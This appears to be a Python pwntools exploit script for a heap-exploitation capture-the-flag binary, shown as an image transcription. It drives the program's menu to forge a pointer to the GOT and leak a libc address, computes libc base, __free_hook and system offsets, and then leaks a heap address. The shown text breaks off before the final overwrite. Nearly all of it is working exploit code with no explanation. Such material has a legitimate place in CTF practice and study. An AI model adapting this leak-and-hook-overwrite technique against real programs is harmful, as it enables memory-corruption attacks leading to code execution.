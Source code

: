 ```python

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    script += "set $base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

def alloc(idx, t, data):
    r.sendlineafter('> ', '1')
    r.sendlineafter(': ', str(idx))
    r.sendlineafter(': ', str(t))

    if t == 1:
        r.sendlineafter(': ', data)
    else:
        r.sendlineafter(': ', str(data))

def show():
    r.sendlineafter('> ', '2')

def delete(idx):
    r.sendlineafter('> ', '3')
    r.sendlineafter(': ', str(idx))

r = start()
if args.D:
    debug(r, [])

bss = 0x6020a0

# 1. forge pointer to got
alloc(0, 2, struct.unpack('d', p64(elf.got.puts))[0])

# 2. leak libc addr -> calc offset
show()
r.recvuntil('string] "')
leak = u64(r.recvuntil('"')[:-1].ljust(8, '\x00'))
dbg('leak')
base = leak - 0x80a30
dbg('base')

fh = base + 0x3ed8e8
system = base + 0x4f4e0

# 3. alloc one chunk
alloc(1, 1, 'hoge')

# 4. forge pointer to list[1] -> leak heap addr
alloc(2, 2, struct.unpack('d', p64(bss+8))[0])
show()
r.recvuntil('string] "')
r.recvuntil('string] "')
r.recvuntil('string] "')
leak = u64(r.recvuntil('"')[:-1].ljust(8, '\x00'))
dbg('leak')
heap = leak - 0x260
dbg('heap')

```